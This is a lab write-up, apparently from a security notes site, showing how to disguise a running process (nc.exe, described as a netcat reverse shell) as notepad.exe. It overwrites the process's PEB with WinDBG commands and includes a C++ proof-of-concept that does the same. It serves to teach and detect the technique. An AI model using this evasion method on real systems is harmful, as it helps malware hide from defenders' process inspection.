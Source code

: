```yaml
---
description: >-
  Understanding how malicious binaries can maquerade as any legitimate Windows
  binary
---
```


# Masquerading Processes in Userland with \_PEB

In this short lab I am going to use a WinDBG to make my malicious program pretend to be a notepad \(hence masquerading\) when inspecting system's running processes with tools like Sysinternals ProcExplorer and similar. Note that his is not a code injection exercise. 

This is possible, because the information about the process \(commandline arguments, image location, loaded modules, etc\) are stored in Process Environment Block \(PEB\). PEB has a corresponding memory structure called `_PEB` which is accessible & writeable \(given right privileges - `SeDebugPrivilege`\) from the userland.

This lab builds on the previous lab:

{% page-ref page="../memory-forensics/process-environment-block.md" %}

## Overview

For this demo, my malicious binary is going to be an `nc.exe` -  a rudimentary netcat reverse shell spawned by cmd.exe and the PID of `4620`:

![](../.gitbook/assets/malicious-process.PNG)

Using WinDBG, we will make the nc.exe looks like notepad.exe - this will be reflected in the `Path` field and the binary icon like so - note the final result below - it is the same nc.exe process \(PID 4620\) only this time masquerading as a notepad.exe:

![](../.gitbook/assets/masquerade-5.png)

## Execution

Let's first look at the \_PEB structure for the nc.exe process:

```csharp
dt _peb @$peb
```

![](../.gitbook/assets/masquerade-13.png)

Note that at the offset `0x020` of the PEB, there is another structure which is very interesting to us -  `_RTL_USER_PROCESS_PARAMETERS`, which contains the process information. Let's inspect it further:

```csharp
dt _RTL_USER_PROCESS_PARAMETERS 0x00000000`005e1f
```

![](../.gitbook/assets/masquerade-12.png)

The offset `0x060` of `_RTL_USER_PROCESS_PARAMETERS` is also of interest to us - it points to a structure `_UNICODE_STRING` that contains the `ImagePathName` field which signifies the name/full path to our malicious binary nc.exe.

Let's inspect that structure:

```text
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-10.png)

`_UNICODE_STRING` structure describes the lenght of the string and also points to the actual memory location ``0x00000000`005e280e`` that contains the string to our malicious binary.

Let's confirm the string location by dumping the bytes at ``0x00000000`005e280e`` by issuing:

```text
0:002> du 0x00000000`005e280e
00000000`005e280e  "C:\tools\nc.exe"
```

![](../.gitbook/assets/masquerade-9.png)

Now that we have confirmed that ``0x00000000`005e280e`` indeed contains a path to the binarry, let's try to write a new string to that memory address. Let's try swapping the nc.exe with a path to the notepad.exe binary:

```text
eu 0x00000000`005e280e "C:\\Windows\\System32\\notepad.exe"
```

![](../.gitbook/assets/masquerade-1.png)

{% hint style="warning" %}
If you are following along, do not forget to add NULL byte at the end of your new string to terminate it:

```text
eb 0x00000000`005e280e+3d 0x0
```
{% endhint %}

Let's check the `_UNICODE_STRING` structure again to see if the changes took effect:

```text
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-4.png)

We can see that our string is getting truncated. This is because the Lenght value in the `_UNICODE_STRING` structure is set to 0x1e \(30 decimal\) which equals to 15 unicode characters:

![](../.gitbook/assets/masquerade-3.png)

Let's increase that value to 0x3e to accomodate our longer string pointing to notepad.exe binary and check the structure again:

```text
eb 0x00000000`005e1f60+60 3e
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

The string `Buffer` is no longer getting truncated:

![](../.gitbook/assets/masquerade-2.png)

For the sake of this exercise, we can clear out the commandline arguments like so:

```text
eb 0x00000000`005e1f60+70 0x0
```

The offset of `0x70` is concerned with a `Buffer` length in another `_UNICODE_STRING` structure holding a string of a commandline arguments the process was launched. 

Now if we inspect the process using Process Explorer, we can see that our nc.exe now look slike a notepad:

![](../.gitbook/assets/masquerade-14.png)

## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:

{% code-tabs %}
{% code-tabs-item title="pebmasquerade.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:

![](../.gitbook/assets/screenshot-from-2018-10-23-23-36-52.png)

## Observations

Switchingf back to the nc.exe for a moment, if we check the `!peb` data, we can see a notepad.exe is being shown in the  `Ldr.InMemoryOrderModuleList` memory structure - pretty cool:

![](../.gitbook/assets/screenshot-from-2018-10-23-19-47-59.png)

Note that even though it shows in the loaded modules that notepad.exe was loaded, it still does not mean that there was an actual notepad.exe process created and sysmon logs prove this:

![](../.gitbook/assets/screenshot-from-2018-10-23-20-02-49.png)

